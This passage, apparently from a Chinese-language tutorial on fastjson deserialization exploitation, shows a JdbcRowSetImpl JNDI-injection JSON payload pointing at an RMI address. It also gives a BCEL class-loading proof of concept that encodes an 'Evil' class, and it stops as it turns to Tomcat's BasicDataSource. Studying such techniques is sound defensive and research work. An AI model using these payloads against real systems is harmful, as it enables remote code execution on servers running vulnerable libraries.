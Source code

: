 ```java
  if (name == null) {
    dataSource = null;
  } else if (name.equals("")) {
    throw new SQLException("DataSource name cannot be empty string");
  } else {
    dataSource = name;
  }
  URL = null;
}
```

不难构建出payload如下：

```java
"{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"rmi://localhost:1099/testobj\",\"AutoCommit\":0}
"
```

不过JNDI注入一个缺点就是需要出网，在目标没有外网连接的情况下无法利用。因此有了下一种方法

# BasicDataSource利用

我们先来回顾下之前BCEL类加载的内容

> bcel包中定义了一个ClassLoader并且实现了自己的loadClass方法，该方法可以理解为当传入的class_name以\$BCEL开头时，利用传入的class_name来直接构建class对象。

之前构建的POC为：

```java
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import java.io.IOException;

public class BCEL_test {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Class.forName(encode(),true,new ClassLoader());
    }

    public static String encode() throws IOException {
        JavaClass cls = Repository.lookupClass(Evil.class);
        return "$$BCEL$$"+Utility.encode(cls.getBytes(), true);
    }
}
```

利用点在BasicDataSource（这是tomcat下的一个类）中的createConnectionFactory中：
